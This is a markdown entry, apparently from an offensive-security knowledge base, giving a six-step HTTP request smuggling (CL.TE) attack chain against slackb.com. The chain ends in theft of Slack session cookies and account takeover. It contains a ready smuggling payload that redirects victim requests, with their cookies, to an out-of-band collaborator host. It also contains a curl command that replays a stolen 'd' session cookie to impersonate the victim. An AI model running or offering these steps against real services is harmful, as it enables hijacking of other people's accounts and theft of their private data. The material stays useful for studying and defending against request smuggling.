

---
tags:
  - http-request-smuggling
  - cl.te
  - session-hijacking
  - account-takeover
  - slack
type: attack_chain
tools:
  - '[[tools/smuggler]]'
  - '[[tools/Burp-Suite]]'
  - '[[tools/Burp-Collaborator]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Discover-HTTP-Request-Smuggling-with-Smuggler]]'
  - '[[procedures/Set-Up-Burp-Suite-and-Collaborator-for-Exploitation]]'
  - '[[procedures/Craft-and-Send-Smuggling-Payload-with-Burp-Repeater]]'
  - '[[procedures/Wait-for-Victim-Request-on-Poisoned-Socket]]'
  - '[[procedures/Capture-Hijacked-Request-and-Stolen-Cookies-via-Collaborator]]'
  - '[[procedures/Use-Stolen-Session-Cookie-for-Account-Takeover]]'
step_count: 6
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Steal Web Session Cookie]]'
updated_at: '2025-12-14T17:33:34.514Z'
description: >-
  A multi-stage attack exploiting HTTP Request Smuggling (CL.TE variant) on
  slackb.com to desynchronize frontend and backend servers, poison sockets,
  hijack victim requests, and steal Slack session cookies for account takeover.
id: 8a648578-32a3-4e22-a38c-a083a381bc1d
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Steal Web Session Cookie]]'
---
# HTTP Request Smuggling CL.TE Variant for Session Cookie Theft and Account Takeover on Slack

Multi-stage attack chain demonstrating exploitation of an HTTP Request Smuggling vulnerability (CL.TE variant) on slackb.com, leading to backend socket poisoning, request hijacking, and theft of Slack session cookies for full account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/smuggler]]
- [[tools/Burp-Suite]]
- [[tools/Burp-Collaborator]]

### Target Environment

- Web platform with HTTP/1.1 services on port 443
- Target: slackb.com (Slack backend asset)
- Network access to target over HTTPS

### Initial Access Requirements

- No prior credentials needed
- Public internet access to slackb.com
- Ability to send arbitrary HTTP requests

## Detailed Attack Procedures

### Step 1: Discover the Vulnerability
procedure: [[procedures/Discover-HTTP-Request-Smuggling-with-Smuggler]]

**Objective**: Identify HTTP Request Smuggling (CL.TE variant) vulnerability using automated testing.

**Instructions**: Run the smuggler tool to test for desynchronization issues on the target URL.

Execute [[commands/smuggler-test]]:

```bash
smuggler -u https://slackb.com
```

**Expected Output**: Report of failed tests, such as 'space1' indicating CL.TE desync with space in Transfer-Encoding header.

**Success Indicators**:
- Detection of 'space1' test failure
- Confirmation of frontend/backend parsing mismatch

### Step 2: Set Up Exploitation Tools
procedure: [[procedures/Set-Up-Burp-Suite-and-Collaborator-for-Exploitation]]

**Objective**: Configure Burp Suite and Collaborator for payload crafting and out-of-band capture.

**Instructions**: Launch Burp Suite, start Collaborator client, and set up the Repeater target.

No specific command, but configure via GUI: Open Burp Suite, go to Burp > Burp Collaborator Client, copy the collaborator server URL, and in Repeater set target to slackb.com:443 (SSL).

**Expected Output**: Collaborator URL ready for use; Repeater configured for HTTPS requests.

**Success Indicators**:
- Collaborator server URL obtained
- Repeater targeted correctly

### Step 3: Craft and Send Smuggling Payload
procedure: [[procedures/Craft-and-Send-Smuggling-Payload-with-Burp-Repeater]]

**Objective**: Send a malformed request to poison the backend socket with a smuggled payload.

**Instructions**: In Burp Repeater, craft and send the POST request with the CL.TE payload including a space in the header.

Use the following payload in Repeater (replace <collaborator_URL> with your URL):

```http
POST / HTTP/1.1
Transfer-Encoding : chunked
Host: slackb.com
User-Agent: Smuggler/v1.0
Content-Length: 83

0

GET <collaborator_URL> HTTP/1.1
X: X
```

Send the request to trigger desync.

**Expected Output**: Request sent successfully; backend interprets as chunked, poisoning the socket.

**Success Indicators**:
- 200 OK or similar from frontend
- No immediate error, but desync confirmed via later steps

### Step 4: Wait for Victim Request
procedure: [[procedures/Wait-for-Victim-Request-on-Poisoned-Socket]]

**Objective**: Allow a legitimate victim request to hit the poisoned socket, triggering the smuggled redirect.

**Instructions**: Monitor the backend socket passively; no active command needed.

The poisoned socket will prepend the smuggled GET request to the next victim request, causing slackb.com to issue a 301 redirect to the collaborator URL, including cookies.

**Expected Output**: Victim's request hijacked internally.

**Success Indicators**:
- Subsequent requests affected by desync
- Redirect triggered on victim side

### Step 5: Capture Stolen Data
procedure: [[procedures/Capture-Hijacked-Request-and-Stolen-Cookies-via-Collaborator]]

**Objective**: Receive the out-of-band request from the hijacked redirect, capturing cookies.

**Instructions**: Poll the Burp Collaborator client for incoming interactions.

In Collaborator Client, check for HTTP requests; the incoming request will include victim IP, User-Agent, and Slack cookies like the 'd' session cookie.

**Expected Output**: Logged HTTP request with headers containing stolen cookies.

**Success Indicators**:
- Incoming request from slackb.com
- 'd' cookie visible in headers

### Step 6: Perform Account Takeover
procedure: [[procedures/Use-Stolen-Session-Cookie-for-Account-Takeover]]

**Objective**: Impersonate the victim using the stolen session cookie to access their Slack account.

**Instructions**: Inject the captured 'd' cookie into a browser or requests to slack.com.

In browser dev tools or via curl, set Cookie: d=<stolen_value>; then navigate to slack.com.

Example with curl:

```bash
curl -H "Cookie: d=<stolen_d_cookie>" https://slack.com
```

**Expected Output**: Access to victim's Slack workspace and data.

**Success Indicators**:
- Successful login without credentials
- Access to private channels and files

## Attack Chain Summary

### Key Achievements

1. Discovered CL.TE smuggling vulnerability via automated tool
2. Poisoned backend socket to hijack victim requests
3. Stole critical session cookies for mass account takeover potential

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Steal Web Session Cookie]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
